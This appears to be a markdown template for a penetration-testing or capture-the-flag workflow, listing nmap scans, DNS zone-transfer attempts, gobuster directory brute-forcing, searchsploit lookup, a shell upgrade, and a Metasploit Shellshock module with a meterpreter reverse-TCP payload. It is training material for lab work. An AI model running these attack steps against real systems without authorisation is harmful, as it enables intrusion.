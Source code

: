 # tempalte, flow

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- <hostslot>
  # rename-tab
sudo vim /etc/hosts
```

## web enum

### dns recon

```sh
nslookup
  # AD, find DC, etc.

# try zone transfer
host -l <hostslot> <dnsServer>
dnsrecon -d <hostslot> -t axfr
  # dnsrecon -d megacorpone.com -t axfr
```

### gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://<hostslot>/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://<hostslot>/cgi-bin/ -w $dict -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## exploit (user shell)

### searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

### example-vector

### interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## exploit (root)

### post enum

```sh
ps aux
sudo -l
```

### privilege escalation

```sh
```

## msf

```msfconsole
msf> search <keywords>
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS <hostslot>
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```
